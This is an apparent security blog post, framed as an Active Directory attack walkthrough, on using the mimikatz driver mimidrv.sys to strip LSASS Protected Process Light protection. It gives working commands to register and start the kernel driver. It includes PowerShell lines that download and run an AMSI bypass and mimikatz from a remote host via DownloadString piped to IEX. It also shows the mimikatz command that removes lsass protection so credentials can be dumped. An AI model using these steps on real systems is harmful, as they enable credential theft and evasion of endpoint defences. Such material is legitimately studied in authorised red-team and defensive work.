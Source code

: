 ```yaml
---
layout: post
title: Disabling LSASS protection with mimidrv.sys
---
```

![](/images/2021-1-1-mimidrv/0.png)


During your Active directory attack, once you have elevated your privilege to Admin, the first thing we can do to laterally move is to dump hashes from LSASS.

**what if the LSASS is protcted.?**

If LSASS protection is enabled we cannot tamper with the process.

if LSASS is marked as Protected Process Light (PPL) then protection is turned on !

***PS: You can use a powershell script such as HostRecon.ps1 to find out if protection is enabled.***

In this post we will take a look at how we can run mimikatz to do this by the driver MIMIKATZ uses to accomplish this !

```
mimidrv.sys
```
Reference: [Use the driver from here:](https://github.com/gentilkiwi/mimikatz/releases) [Mimikatz](https://github.com/EmpireProject/Emp...e-Mimikatz.ps1])

First thing to do is to upload the driver file into disk, fortunately, defender does not flag this as malicious !


Now we will create as service and load the driver

```
sc create mimidrv binPath= C:\tmp\mimidrv.sys type= kernel start= demand
```

Now we will start the service

```

sc start mimidrv
```

With the driver running, we can instruct it to turn off the LSASS PPL protection.

In order to do that, we will first disable AMSI and load mimikatz:

```
Step 1: Start powershell
Step 2: (New-Object System.Net.WebClient).DownloadString('http://192.168.49.69/AMSI.txt') | IEX
Step 3: (New-Object System.Net.WebClient).DownloadString('http://192.168.49.69/mimikatz.txt') | IEX
Step 4: Invoke-Mimikatz -Command "`"!processprotect /process:lsass.exe /remove`"" 


```

![](/images/2021-1-1-mimidrv/2.png)

With the driver running combined with the above command, we have successfully disabled the protection !!

Now we can use any method to dump the lSASS process and download it offline and use tools such as "MIMIKATZ" or "PYPYKATZ" to extract the credentials
